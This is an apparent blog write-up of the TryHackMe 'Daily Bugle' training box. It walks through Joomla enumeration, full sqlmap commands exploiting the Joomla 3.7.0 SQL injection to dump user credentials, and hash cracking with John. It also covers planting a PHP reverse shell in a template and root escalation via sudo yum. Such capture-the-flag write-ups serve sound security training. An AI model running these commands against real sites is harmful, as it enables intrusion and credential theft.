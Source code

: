 ```yaml
---
title: TryHackMe Daily Bugle
description: DailyBugle writeup
categories:
 - tryhackme

tags: tryhackme joomla sqli oscp yum
---
```


## Summary
hello
Daily Bugle is free box on Tryhackme OSCP learning path. Compromise a Joomla CMS account via SQLi, practise cracking hashes and escalate your privileges by taking advantage of yum.
categories:

## Enumeration/Reconnaissance
![](https://i.imgur.com/tzKm3a6.png)

Here is nmap result, we got three service running.
PORT       Service
22/tcp     ssh
80/tcp     http(Apache)
3306/tcp   mysql(MariaDB)

lets start with port 80 to deep dive.

And we found who rob the Bank
![](https://i.imgur.com/bSR8SzI.png)

To check for intresting directory lets fire up GoBuster.

![](https://i.imgur.com/WwjnMlr.png)

After checking directory we got admin panel.
![](https://i.imgur.com/eR2ePC3.png)

To get more info on joomla, i have used joomscan
![](https://i.imgur.com/YURMF5t.png)

Here nothing seems to be new but we got the joomla version Joomla 3.7.0

Searchsploit shows that joomla version 3.7.0 is vulnerable to sql injection.
![](https://i.imgur.com/2BjGrQb.png)

## Exploit
Here is that sqlmap command vulnerable to joomla 3.7.0
```
sqlmap -u “http://10.10.176.140/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```
Lets start Sqlmap with above command.
![](https://i.imgur.com/ChiMPO1.png)
Here, we have declared cookies. So continue with Yes.
![](https://i.imgur.com/sMOS6iW.png)
To skip test payloads specifice for other database. So continue with Y.
![](https://i.imgur.com/6yZB6d2.png)
We got our vulnearable parameter. so stop testing with N.
![](https://i.imgur.com/DkWP4GN.png)
We got five Vulnerable database. Joomla looks interesting!!!
```
sqlmap -u “http://10.10.176.140/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomla --tables
```
![](https://i.imgur.com/IQprwWV.png)
```
sqlmap -u “http://10.10.176.140/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomla -T "#__users" --columns
```
Now lets check the columns of Joomla. We got a table "#__users"


![](https://i.imgur.com/9u2jP3c.png)
Lets find out the columns of table "__users".

![](https://i.imgur.com/VlpSAiz.png)
We got five columns.Lets check for username and password.

```
sqlmap -u “http://10.10.176.140/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomla -T "#__users" -c username --dump
```

![](https://i.imgur.com/mpCqnR8.png)
We got the username jonah

```
sqlmap -u “http://10.10.176.140/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomla -T "#__users" -c password --dump
```
![](https://i.imgur.com/sb3qaHV.png)
lets check the password. We got hash
![](https://i.imgur.com/Pbztfh3.jpg)

## Password Cracking
Time to crack the hash. Here, I have used John to crack the hash
```
$ john --wordlist=/user/share/wordlists/rockyou.txt hash.txt
```
![](https://i.imgur.com/bjv8Hte.jpg)

We got the username and password. Lets goto admin panel and logged in.

![](https://i.imgur.com/R9s3ZQy.png)

Here, I got the template to insert the code. We can to insert reverse shell.
![](https://i.imgur.com/6FR9hhW.png)

![](https://i.imgur.com/RXOHVya.png)
## Reverse shell/Connection
Here I have used PentestMonkey Php Reverse-shell.
![](https://i.imgur.com/v8ChQNM.png)

Now, start netcat to listen on port 4444
![](https://i.imgur.com/oqsRAh7.png)

After saving the template. Click on Template Preview to get the reverse shell.
![](https://i.imgur.com/sUrErlE.png)
We got reverse connection in netcat.
![](https://i.imgur.com/Ith2FCR.png)
We got new user.
![](https://i.imgur.com/7SHM0Iq.png)
After searching, i got configuration file in /var/www/html/configuration.php
![](https://i.imgur.com/Nh4usCL.jpg)
So, got username and password of jjameson. lets switch to jjameson
![](https://i.imgur.com/hATkoiv.jpg)
## Privilege Escalation
For privilege Escalation, it was too easy. tried to start with sudo and got it.
sudo -l
![](https://i.imgur.com/hd2x2kz.png)
Now, goto GFTObin for yum
![](https://i.imgur.com/MYP9hKQ.png)
Copy paste this in your shell and boom
![](https://i.imgur.com/VLqdgFL.png)
## Root
we got root access and root.txt
![](https://i.imgur.com/WgPIsfX.jpg)




















